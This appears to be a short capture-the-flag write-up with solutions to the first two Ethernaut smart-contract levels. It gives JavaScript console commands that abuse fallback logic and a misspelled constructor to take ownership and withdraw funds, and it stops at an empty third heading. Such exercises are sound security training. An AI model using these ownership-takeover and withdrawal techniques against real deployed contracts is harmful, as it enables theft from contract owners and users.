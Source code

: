 # Ethernaut solution

## 1. Fallback
Abusing erroneous logic between the functions and fallback function
```
await contract.contribute({value: 1234});
await contract.sendTransaction({value: 1234});
await contract.withdraw();
```

## 2. Fallout
Constructor is spelled wrongly; becomes a regular function
```
await contract.Fal1out({value: 1234});
await contract.sendAllocation(await contract.owner());
```

## 3. Coinflip

